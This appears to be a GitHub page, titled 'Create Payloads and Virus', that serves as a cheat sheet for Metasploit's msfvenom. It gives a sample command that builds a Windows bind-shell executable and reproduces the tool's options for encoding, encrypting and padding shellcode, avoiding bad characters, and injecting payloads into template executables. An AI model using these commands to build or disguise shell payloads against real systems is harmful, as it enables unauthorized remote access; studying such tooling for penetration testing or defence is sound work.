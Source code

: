 <img src="https://github.com/dewebdes/CYBER-MILITARY-GERMANY/blob/master/Metasploit/msfvenom/msfvenom.jpg" />
<h1>Create Payloads and Virus</h1>
<h2>MSFVenom is new and combine msfpayload, encrypts & others together</h2>
<h3>Sample usage</h3>
<code>msfvenom -p windows/shell_bind_tcp LPORT=1337 LHOST=<IP> -f exe -o bindshell.exe</code>
<p>
<h3>Get the list of <b>msfvenom</b> Algorithms & Options, all for all options and others for filter results </h3>
<code>
msfvenom -l [payloads,encoders,nops,platforms,archs,encrypt,formats,all]
</code>
</p>
<p>
<code>msfvenom -p linux/x86/shell_bind_ipv6_tcp --list-options</code>
	<br><b>show target payload options</b>
</p>
<p>
	<code>msfvenom -f [format-name]</code>
<h4>Raw Payload -> Encoder -> Formatting -> Output</h4>
</p>	
<p>
	<ul>-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)<br>
        	<li>--sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string</li>
        	<li>--smallest                   Generate the smallest possible payload using all available encoders</li>
        	<li><a href="https://www.linkedin.com/posts/kave-eyni-08060b59_5-common-encryption-algorithms-and-the-unbreakables-activity-6674037546470780928-GkvA">--encrypt</a>         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)</li>
        	<li>--encrypt-key     <value>    A key to be used for --encrypt</li>
		<li>encrypt-iv      <value>    An initialization vector for --encrypt</li></ul>
	</p>
	<p>
    <ul>-a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)<br>
        	<li>--platform        <platform> The platform for --payload (use --list platforms to list)</li>
	    </ul></p>
		<p>
    -o, --out             <path>     Save the payload to a file
			</p>
    <p>
	    -b, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_bad-char-hacking-activity-6674042570320039936-8InL">--bad-chars</a>       <list>     Characters to avoid example: '\x00\xff'
	    </p>
	    <p>
    -n, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacker-lessons-activity-6674044482788450304-mXPf">--nopsled</a>         <length>   Prepend a nopsled of [length] size on to the payload<br>
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
		    </p>
    <p>
	    -s, --space           <length>   The maximum size </p>
	    <p>-c, --add-code        <path>     Specify an additional win32 shellcode file to include</p>
    <p>-x, --template        <path>     Specify a custom executable file to use as a template</p>
    <p>-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread</p>
    <p>-v, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_blackhat-hacking-lessons-activity-6674051666335158272-ZrT2">--var-name</a>        <value>    Specify a custom variable name to use for certain output formats</p>
    <p>-t, <a href="https://www.linkedin.com/posts/kave-eyni-08060b59_rapid7metasploit-framework-activity-6674053418291732480-eaeS">--timeout</a>         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)</p>
    <p>-h, --help                       Show this message</p>
